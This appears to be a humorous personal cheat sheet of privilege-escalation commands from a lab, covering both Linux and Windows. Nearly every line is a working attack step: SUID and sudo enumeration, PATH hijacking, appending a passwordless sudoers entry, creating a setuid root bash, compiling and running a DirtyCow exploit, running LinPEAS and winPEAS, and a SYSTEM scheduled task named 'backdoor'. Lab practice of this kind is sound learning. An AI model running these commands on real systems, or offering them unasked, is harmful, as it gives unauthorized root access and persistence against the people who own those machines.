 
# good SUID scan
`find / -perm -4000 2>/dev/null`

# this looked weird... /usr/bin/screen had SUID bit?!
`ls -la /usr/bin/screen`

# always try this even though it rarely works
`sudo -l`

# maybe edit cronjob? I saw /etc/cron.d/backup doing something sus
`nano /etc/cron.d/backup`

# installed LinPEAS and forgot to run it, just staring at .sh file for 3 mins
`chmod +x linpeas.sh && ./linpeas.sh`

# tried to hijack PATH, didnt work...
`echo $PATH
PATH=/tmp:$PATH
echo "bash" > /tmp/find && chmod +x /tmp/find`

# added user to sudoers. definitely burned the lab down on accident. dawdsd
`echo "hax ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`

# this command opened a root shell and I still don’t trust it
`cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p`

# lol no one patched DirtyCow. into the kernel.
`gcc -pthread dirty.c -o dirty && ./dirty`

# AlwaysInstallElevated? 
`reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`

# used winPEAS, saw "Abuse available .msi packages to get SYSTEM" — didn't ask how, just clicked run.. always confusing these things
`powershell -ExecutionPolicy Bypass -File winpeas.ps1`

# schtasks = SYSTEM shell every minute.
`schtasks /create /tn "backdoor" /tr "cmd.exe /c whoami > C:\output.txt" /sc minute /ru SYSTEM`

# opened up service list and there was some sketchy name like "UpdaterServiceX" with no quotes
`wmic service get name,displayname,pathname,startmode | findstr /i "Updater"`

# I was already root but tried exploiting something anyway. This is why people don't invite me to their labs.
`whoami && sudo whoami && ./exploit_me_anyway.py
`
